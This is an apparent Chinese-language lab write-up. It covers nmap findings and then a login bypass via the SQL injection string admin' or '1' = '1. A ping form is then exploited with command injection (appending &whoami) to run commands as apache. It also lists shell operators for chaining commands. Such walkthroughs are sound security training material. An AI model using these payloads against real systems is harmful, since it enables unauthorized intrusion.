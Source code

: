 ```bash
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
```

整合一下信息：

- **22/tcp (SSH)**：运行的是 **OpenSSH 3.9p1**，支持 SSHv1 协议，这是一个较为过时和不安全的版本。
- **80/tcp (HTTP)**：运行 **Apache HTTPD 2.0.52**，版本较旧，属于 **CentOS** 系统的一部分，可能存在已知漏洞。
- **443/tcp (SSL/HTTP)**：同样运行 **Apache 2.0.52**。
- **111/tcp (RPCBind)**：提供 **rpcbind** 服务，常用于基于 RPC 的网络服务通信。
- **631/tcp (IPP)**：运行 **CUPS 1.1** 打印服务，存在“**403 Forbidden**”错误响应，表明服务存在但禁止访问，且可能存在不安全的 PUT 方法。
- **3306/tcp (MySQL)**：MySQL 服务运行中，但未经授权无法进行连接。
- 系统可能运行 **Linux 内核 2.6.9 - 2.6.30**

# 漏洞发现

还是先看一下80吧

## 80

![image](https://github.com/user-attachments/assets/fb413a74-5ce9-4a8b-aad5-1d72f81a6da5)


一个登录框，简单试了下弱口令没进去，试一下万能密码

结果使用`admin’ or ‘1’ = ‘1`和任意密码成功进入，发现一个执行ping命令的输入框

![image](https://github.com/user-attachments/assets/7111790c-0fd8-4395-87b6-f4928e0bb251)


想到使用`||和&，&&`拼接导致RCE

补充：

```bash
- |：命令1|命令2 ，只执行2
- ||：1失败2执行
- &：不管1都2
- &&：1成功2执行
```

测试一下

![image](https://github.com/user-attachments/assets/92d558b7-a799-417d-a9f8-7fe311a45c43)


```bash
192.168.85.157&whoami

PING 192.168.85.157 (192.168.85.157) 56(84) bytes of data.
64 bytes from 192.168.85.157: icmp_seq=0 ttl=64 time=0.210 ms
apache
64 bytes from 192.168.85.157: icmp_seq=1 ttl=64 time=0.177 ms
64 bytes from 192.168.85.157: icmp_seq=2 ttl=64 time=0.129 ms

--- 192.168.85.157 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.129/0.172/0.210/0.033 ms, pipe 2
```
